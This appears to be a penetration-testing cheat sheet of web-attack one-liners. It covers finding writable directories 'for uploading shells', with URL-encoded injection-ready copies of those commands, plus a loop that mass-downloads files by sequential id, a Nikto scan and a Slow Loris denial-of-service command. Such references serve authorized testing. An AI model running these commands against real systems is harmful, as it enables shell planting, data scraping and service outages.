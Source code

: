 Mirror website with wget
------------------------
```
wget -mkEpnp http://www.yoursite.org
```
Find Writeable Directories (Good for uploading shells)
------------------------
```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
%66%69%6e%64%20%2f%20%2d%74%79%70%65%20%64%20%5c%28%20%2d%70%65%72%6d%20%2d%67%2b%77%20%2d%6f%72%20%2d%70%65%72%6d%20%2d%6f%2b%77%20%5c%29%20%2d%65%78%65%63%20%6c%73%20%2d%61%64%6c%20%7b%7d%20%5c%3b%0a
```
```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; | grep www-data
%66%69%6e%64%20%2f%20%2d%74%79%70%65%20%64%20%5c%28%20%2d%70%65%72%6d%20%2d%67%2b%77%20%2d%6f%72%20%2d%70%65%72%6d%20%2d%6f%2b%77%20%5c%29%20%2d%65%78%65%63%20%6c%73%20%2d%61%64%6c%20%7b%7d%20%5c%3b%20%7c%20%67%72%65%70%20%77%77%77%2d%64%61%74%61%0a
```

Mass download files by id
------------------------
```bash
#!/bin/bash
   for i in `seq 1000 5000`;
      do
         wget https://your.site.com:80/pathtodownloads/file.php?id=$i
      done
```
Nikto scan all and output to html
------------------------
```
nikto -Display V -o results.html -Format htm -h http://xxx.xxx.xxx.xx:80/directory/
```
Slow Loris (slowhttptest)
------------------------
```
slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://xxx.xxx.xxx.xxx/login/login.html -x 24 -p 3
```
